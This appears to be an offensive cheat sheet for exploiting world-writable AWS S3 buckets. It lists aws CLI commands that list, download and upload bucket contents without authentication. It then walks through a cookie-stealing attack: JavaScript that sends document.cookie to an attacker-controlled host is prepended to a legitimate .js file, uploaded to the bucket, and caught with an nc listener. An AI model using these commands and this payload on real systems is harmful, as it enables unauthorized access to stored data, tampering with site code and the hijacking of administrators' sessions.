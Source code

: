 # World-Writable S3 Buckets Exploitation

### Steps and commands

#### 1) Create a directory to possibly download all assets within the bucket locally

    mkdir TARGET_BUCKET_NAME; cd TARGET_BUCKET_NAME/ 

#### 2) List all content of the bucket recursively WITHOUT authentication

    aws s3 ls s3://BUCKET_NAME-BUCKET_ID --recursive --no-sign-request 

#### 3) Download all bucket contents at your current directory

    aws s3 cp s3://BUCKET_NAME-BUCKET_ID . --recursive --no-sign-request 

#### 4) Check for misconfigured bucket ACLs. This is optional

    aws s3api get-bucket-acl --bucket BUCKET_NAME-BUCKET_ID --no-sign-request 

#### 5) Likewise for file ACLs

    aws s3api get-object-acl --bucket BUCKET_NAME-BUCKET_ID --key EXAMPLE/FILE.TXT --no-sign-request 

#### 6) Go to a directory of our downloaded bucket content

    cd EXAMPLE/ 

#### 7) Create a test file to test for World-Writable Access in the bucket

    echo test > test 

#### 8) Upload our test file to the bucket

    aws s3 cp test s3://BUCKET_NAME-BUCKET_ID/EXAMPLE/test --no-sign-request 

#### 9) Verify that our file has been uploaded successfully

    aws s3 cp test s3://BUCKET_NAME-BUCKET_ID/EXAMPLE/test - --no-sign-request 

## Alternate method to check for world read/writeable S3 Buckets: AWS macie2

    aws macie2 describe-buckets --region REGION  --criteria '{"publicAccess.effectivePermission":{"eq":["PUBLIC"]}}' --query 'buckets[*].{BucketName: bucketName, AllowsPublicReadAccess: publicAccess.permissionConfiguration.bucketLevelPermissions.bucketPolicy.allowsPublicReadAccess, AllowsPublicWriteAccess: publicAccess.permissionConfiguration.bucketLevelPermissions.bucketPolicy.allowsPublicWriteAccess}' --output table

# Use case example: Steal admin cookie

### If we have verified that we can actually write arbitrary files on a bucket, and the webapp has pages that can only be accessed by privileged users, we can steal their session cookies by overwriting a legitimate .js file with our own malicious code.

## Code:

    var xhr=new XMLHttpRequest();

    xhr.open("GET", "http://localhost:8000/?"+document.cookie, true); 

    xhr.send();

### Backup the .js file first

    cp legit.js legit.js.bak

### Place this payload before the legitimate contents of the file. Don't forget to change localhost with your corresponding IP address

### Then upload the file to the bucket

    aws s3 cp legit.js s3://BUCKET_NAME-BUCKET_ID/example/legit.js --no-sign-request

### Setup listener to fetch the cookie if the webapp uses automation, or an admin somehow triggers our payload

    nc -lvnp 8000 
